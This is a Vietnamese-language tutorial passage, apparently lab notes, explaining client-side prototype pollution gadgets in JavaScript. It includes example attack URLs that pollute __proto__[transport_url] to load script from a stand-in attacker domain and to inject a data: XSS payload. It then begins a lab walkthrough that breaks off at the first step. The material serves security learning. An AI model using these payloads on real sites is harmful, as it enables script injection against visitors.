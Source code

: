Nhiều thư viện JavaScript `chấp nhận một đối tượng mà các nhà phát triển có thể sử dụng để đặt các tùy chọn cấu hình khác nhau`. Mã thư viện kiểm tra xem nhà phát triển có rõ ràng thêm các thuộc tính nhất định vào đối tượng này hay không và nếu có, điều chỉnh cấu hình tương ứng. Nếu một thuộc tính đại diện cho một tùy chọn cụ thể không có mặt, một tùy chọn mặc định được xác định trước thường được sử dụng thay thế. Một ví dụ đơn giản có thể trông như thế này:

    let transport_url = config.transport_url || defaults.transport_url;

Bây giờ hãy tưởng tượng mã thư viện sử dụng `transport_url` này để thêm một tham chiếu script vào trang:

    let script = document.createElement('script');
    script.src = `${transport_url}/example.js`;
    document.body.appendChild(script);
Nếu các nhà phát triển của trang web chưa đặt thuộc tính `transport_url` trên đối tượng config của họ, đây là một công cụ khai thác tiềm năng. Trong trường hợp kẻ tấn công có thể làm ô nhiễm `Object.prototype` toàn cục với thuộc tính `transport_url của riêng chúng`, thuộc tính này sẽ được đối tượng config kế thừa và do đó, được đặt làm src cho script này đến một miền do kẻ tấn công chọn.

Nếu prototype có thể bị ô nhiễm thông qua một `tham số truy vấn`, ví dụ, kẻ tấn công sẽ chỉ cần dụ nạn nhân truy cập một URL được tạo đặc biệt để khiến trình duyệt của họ `nhập một tệp JavaScript độc hại từ một miền do kẻ tấn công kiểm soát`:

    https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net

Bằng cách cung cấp một URL `data:`, kẻ tấn công cũng có thể trực tiếp `nhúng một payload XSS` vào chuỗi truy vấn như sau:

    https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//

Lưu ý rằng dấu `//` ở cuối trong ví dụ này chỉ đơn giản là `để bỏ qua hậu tố /example.js` được mã hóa cứng.

# Labs
## Lab: Client-side prototype pollution via browser APIs
**1. Yêu cầu**

Bài lab này dễ bị tấn công DOM XSS thông qua ô nhiễm prototype phía client. Các nhà phát triển của trang web đã nhận thấy một công cụ khai thác tiềm năng và đã cố gắng vá lỗi. Tuy nhiên, bạn có thể vượt qua các biện pháp họ đã thực hiện.

Để giải quyết bài lab này, bạn cần thực hiện các bước sau:
- Tìm một nguồn mà bạn có thể sử dụng để `thêm các thuộc tính tùy ý vào Object.prototype toàn cục`.
- Xác định `một thuộc tính công cụ khai thác` cho phép bạn thực thi JavaScript tùy ý.
- Kết hợp chúng để gọi hàm `alert()`.

**2. Thực hiện**

Trước tiên, tôi sẽ `tìm điểm` có thể gây prototype pollution.

Truy cập lab:
